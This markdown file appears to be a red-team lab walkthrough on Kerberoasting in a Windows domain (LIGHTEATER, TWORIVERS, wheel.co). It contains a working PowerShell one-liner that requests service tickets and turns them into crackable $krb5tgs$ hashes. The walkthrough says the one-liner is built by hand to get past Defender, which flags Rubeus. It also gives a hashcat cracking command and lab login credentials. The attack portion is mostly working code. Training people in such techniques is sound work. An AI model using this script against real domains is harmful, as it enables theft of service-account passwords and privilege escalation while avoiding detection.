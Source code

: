 # Advanced Kerberoasting


## Roast like a Ghost

The point of kerberoasting is to get credentials for accounts with higher privledges. Service accounts or accounts with SPNs (Call them SPINS if you want to be cool.) often have higher credentials. MSSQL databases actually automatically create them for the service account running the MSSQL service.  But they can often be assigned to accounts for number of services including files services.

As you can imagine, even lowly Domain Users need to interact with file services, and can request tickets associated with these SPN accounts. Previously you did this were Rubeus, now we are going to turn on defender, watch it delete that tool immediately because it is super burned, and then craft our own Ticket Requests to get the Kerb Hash back from the svc-file account.


Login from LIGHTEATER to TWORIVERS using RDP and the following user level credentials:  
wheel\felixb:P@ssW0rD!

1. Now that you have the SAM account names, perform a subsquent query to obtain the SPN names. These will be used to perform targeted kerberoasting attacks by obtaining the kerberos pre-authentication ticket hash from the DC.



```
$name="svc-file"
[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns
```

1. Armed with the list of the user SAM accounts and SPN names, we will perform the attack using the command below. Note that you will need to change the SPN and SAM account for each user (e.g., "`HOST/dragonmount.wheel.co`", "`svc-file`"). Copy the SPN hashes to crack offline.

Requesting a TGS-REP ticket for the user with the SPN.

TGS flow is used becuase you already have a TGT because you are an authenticated domain user. So you can request tickets for any Service.

SPNs

```
$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}}; $_spn.invoke("HOST/shadarlogoth.wheel.co", "svc-file");
```
Returns the RC4 HASH

![SPN Burn](./Kerb-burn-2.png)

1. Copy the output into a file named kerb.hash


1. If you wanted to use hashcat, yourcommand would look like this. Of course the password has to be in the list.
   ```sh
   hashcat -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O ./kerb.hash ./rawk_you.txt
   ```
   Keep a text file with the decrypted passwords for each domain admin.

13100 is the type used for this kind of ticket.

> You can view modes using: `hashcat -h | grep -i kerberos`





